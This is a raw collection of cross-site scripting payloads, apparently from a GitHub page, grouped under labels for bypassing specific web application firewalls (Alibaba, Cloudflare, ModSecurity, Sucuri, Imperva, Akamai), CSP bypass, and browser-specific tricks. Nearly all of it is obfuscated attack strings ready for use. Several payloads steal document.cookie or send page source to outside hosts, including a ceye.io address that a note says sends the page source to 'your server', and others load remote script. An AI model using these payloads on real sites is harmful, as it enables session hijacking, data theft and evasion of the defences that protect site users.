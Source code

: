<img src='1' onerrror=alert(1)>
Bypass 405 Alibaba { WAF };

/* <audio src=1 onloadstart=alert&lpar;1&rpar;//> */

</script><script>Á=![];É=!![];Í=[][[]];Ó=+[![]];SI=+(+!+[]+(!+[]+[])[!+[]+!+[]+!+[]]+[+!+[]]+[+[]]+[+[]]+[+[]]);ST=([]+[]);Ü=(+[]);A=(Á+'')[1];D=(Í+'')[2];E=(É+'')[3];F=(Á+'')[0];G=[![]+[+[]]+[[]+[]][+[]][[![]+{}][+[]][+!+[]+[+[]]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[![]+{}][+[]][+!+[]+[+[]]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]]][+[]][!+[]+!+[]+[+[]]];I=([Á]+Í)[10];L=(Á+'')[2];T=(É+'')[0];O=(É+[][F+I+L+L])[10];R=(É+'')[1];N=(Í+'')[1];M=(+(208))[T+O+'S'+T+R+I+N+G](31)[1];P=(+(211))[T+O+'S'+T+R+I+N+G](31)[1];S=(Á+'')[3];U=(Í+'')[0];V=(+(31))[T+O+'S'+T+R+I+N+G](32);X=(+(101))[T+O+'S'+T+R+I+N+G](34)[1];Y=(Ó+[SI])[10];Z=(+(35))[T+O+'S'+T+R+I+N+G](36);C=([][F+I+L+L]+'')[3];H=(+(101))[T+O+'S'+T+R+I+N+G](21)[1];K=(+(20))[T+O+'S'+T+R+I+N+G](21);W=(+(32))[T+O+'S'+T+R+I+N+G](33);J=([][E+N+T+R+I+E+S]()+'')[3];B=([][E+N+T+R+I+E+S]()+'')[2];[][F+I+L+L][C+O+N+S+T+R+U+C+T+O+R](A+L+E+R+T+'(1)')();</script>


XSS { Cloudfare } bypass:

</> " <a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'> " </>

</Scrpt/"%27--!>%20<Scrpt>%20confirm(1)%20</Scrpt>

<div style="background:url(/f#&#127;oo/;color:red/*/foo.jpg);">X

&lt;img longdesc="src='x'onerror=alert(document.domain);//&gt;&lt;img " src='showme'&gt;

&lt;img longdesc="src=" images="" stop.png"="" onerror="alert(document.domain);//&amp;quot;" src="x" alt="showme"&gt;

</Scrpt/"%27--!>%20<Scrpt>%20confirm(1)%20</Scrpt>

<iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:al"+"er"+"t()"';>

<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//

[" <style>
@KeyFrames

 z{</style><div style=animation-name:z onanimationend=&#97&#108&#101&#114&#116&grave;1&grave;> %253Cscript%253Ealert('XSS')%253C%252Fscript%253E "</script> "]
 
 
<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>

{` <body \< onscroll =1(_=prompt,_(String.fromCharCode(88,83,83,32,66,121,32,77,111,114,112,104,105,110,101)))> ´}
 
« <svg onload\r\n=$.globalEval("al"+"ert()");> »
« <svg/onload=self[`aler`%2b`t`]`1`> »


<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>

<svg%0Aonauxclick=0;[1].some(confirm)//

/<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
 
/<svg%0Aonauxclick=0;[1].some(confirm)//

Bypass ModSecurity

" %3Cspyerror%20script%20goes%20here%3E=%0AByPass "

"%3Cscript%3Ealert(document.cookie)%3C/script%20ByPass%3E"

<img src=x:alert(alt) onerror=eval(src) alt='spyerror'>

"></tag><svg onload=alert(spyerror)>

Sucuri {` XSS ´}

"><BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<;br size=\";&;{alert(&#039;XSS&#039;)}\";>;

CSP BYPASS

script-src self: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

BYPASS WAF

">'><details/open/ontoggle=confirm('XSS')>

 
BYPASS IE

1、
<iframe id=element></iframe>
<script>
element.alert(1)
</script>

Firefox mXSS

<svg><b><style><img id="&lt;/style&gt;&lt;img src=1 onerror=alert(1)&gt;">

2、


Imperva WAF

<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">

<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click



XSS filter bypass

<</div>script</div>>alert()<</div>/script</div>>

<xss<script>>&28;prompt();&28;<</script>/xss>

<embed src="javascript%26%63%6f%6c%6f%6e%3balert()">

<embed src="jav&#97;scr&#105;pt&#x3a;ale&#114;t()">

Akamai WAF bypass

<details onauxclick=confirm`xss`></details>

<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>

bypass  hidden事件

"accesskey="X" onclick="alert(1)" ，为了触发事件，需要按Alt+SHIFT+X 键

gglx='accesskey='x' onclick='al\u0065rt(1)'

<a href="javascript:confirm('http://xss.studysec.com/hzhIH1?1538491450')" >你好</a>

'><img src='1' onerror=alert(1)>'

123u'" onmouseover=alert(/xx/) autofocus="

' onmouseout=top['aler'+'t'](document.cookie) '

<svg/src=x onmousover=alert(1)>

<svg/onload="(new Image()).src='//de0s1z.ceye.io/'%2Bdocument.documentElement.innerHTML"> 发送当前网页源代码到你的服务器

<a"/onclick=(confirm)()>

<br size="&{alert('XSS')}">

"><\x00script>javascript:alert(1)</script>

<script>eval('al'+'ert(1)');</script>  

<script>'alert(1)'.replace(/.+/,eval)</script>

<img onerror=eval('al\u0065rt(1)') src=a>

<script>function::['alert'](1)</script>

<--`<img/src=`%20onerror=confirm``>%20--!>

<!--><Svg OnLoad=confirm`1`>

<button/onclick=alert(1) >M</button>

<button onfocus=alert(1) autofocus>

<IFRAME SRC="javascript:alert(1);"></IFRAME> 

<a href=# name=x id=x>Click me on IE11</a>

<script event="onclick(blah)<wtfbbq>{}" for=x>
blah.view.alert(1)
</script>

<script event=onload for=window>
return alert(2)};{ //IE11 only
</script>

<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f

<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;\u0061\u006C\u0065\u0072\u0074&lpar;this['document']['cookie']&rpar;">X</a>

<script src="data://www.trustdomain.hahwul.com, alert(45)"></script>

<noscript><p title="</noscript><img src=x onerror=alert(1)>">&cad=h

<noscript><p title="</noscript><img src=x onerror=alert(1)>">

'%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e'

"><svg onmouseover=alert(1)>.svg



<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>

<noembed><img src="</noembed><iframe onload=alert(1)>" /></noembed>

<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<div id="d"><option id="o"></div>
<script>
d.addEventListener("DOMNodeRemoved",function(){new ArrayBuffer(0xfffffff);alert()});
document.createElement("select").options[0]=o;
</script>



javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

javascript://comment%0a%0dalert(0);

><svg/on</script>laod=alert>

param=XSS"%0D<body='X' onmouseover=setInterval`alert\x28&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;\x29`//

<input type="text" name="param" value="XSS"%0D<body='X' onmouseover=setInterval`alert\x28&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;\x29`//

><iframe src="file:///etc/passwd"/></iframe>


Lontara脚本
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()

Dec: <svg onload=prompt%26%230000000040document.domain)>
Hex: <svg onload=prompt%26%23x000000028;document.domain)>

- xss"></a><input value="Type anything"onbeforeinput="prompt%26lpar%3Bdocument.domain%26rpar%3B"><!--

<a href=https://yogosha.com  ping=/changepass?password=new_pwd/>

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

"><input/onauxclick="[1].map(prompt)">

<input/onfocus=alert(0) autofocus>

<body ontouchstart=alert(45)> 
<body ontouchend=alert(45)>   
<body ontouchmove=alert(45)>
'"--><Body onbeforescriptexecute="[1].map(confirm)">
<audio src=x onerror=alert(0)>
<video src=x onerror=alert(0)>
<script src=x onerror=alert(0)>

XSS.svg

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="100px" height="100px" viewBox="0 0 751 751" enable-background="new 0 0 751 751" xml:space="preserve">  <image id="image0" width="751" height="751" x="0" y="0"
href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAu8AAALvCAIAAABa4bwGAAAAIGNIUk0AAHomAACAhAAA+gAAAIDo" />
<script>alert(1)</script>
</svg>



Works in Chrome(加载远程js)

<img src onerror=import('//bo0om.ru/x/')>

<img src onerror=import('data:text/javascript,alert(1)');>

<div onpointerdown="alert(45)">hahwul(45)</div>
<div onpointerenter="alert(45)">hahwul(45)</div>
<div onpointerleave="alert(45)">hahwul(45)</div>
<div onpointermove="alert(45)">hahwul(45)</div>
<div onpointerout="alert(45)">hahwul(45)</div>
<div onpointerover="alert(45)">hahwul(45)</div>
<div onpointerover="alert(45)">this is onpointerover=alert(45)</div>
<div onpointerup="alert(45)">hahwul(45)</div>
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>
<img src="img-src" onloadstart="alert(45)">
<img src="img-src" onloadend="alert(45)">


javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

javascript://comment%0a%0dalert(0);

<svg><script>alert(1)<b>test</b>

<svg onload="new Image().src='//example.com/?x='+btoa(document.documentElement.innerHTML)">

<svg/whatthe=""onload=alert(45)>

"><svg/;onload="alert(45)"onload=alert(45)>">

"'><svg/whatthe=""onload=alert(45)>

<body ontouchstart=alert(45)> 
<body ontouchend=alert(45)>   
<body ontouchmove=alert(45)>



<html>
<head>
<meta http-equiv="x-ua-compatible" content="IE=5">
</head>
<body>
<iframe onload="JScript.Compact:alert(1)"></iframe>
<iframe onload="JScript.Compact:alert(2);"></iframe>

</body>
</html>


<a+HREF='javascrip%26%239t:alert%26lpar;document.domain)'>test</a>

<a Href='javascrip&#9t:alert&lpar;document.domain)'>test</a>

<input value="<!--"><script>alert(0)</script>-->



<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
  alert("Ghostlulz XSS");
   </script>
</svg>


<script>alert(1)//
<script>alert(1)<!--
<script>alert(1)%0A-->
<script src=data:,alert(1)>
<script src=//HOST/FILE>
<script src=https:DOMAIN/FILE>
<svg><script xlink:href=//HOST/FILE>
<svg><script xlink:href=https:DOMAIN/FILE>
<svg><script xlink:href=data:,alert(1)>

" formaction=java%26Tab%3bscript:ale%26Tab%3brt() type=image src=""
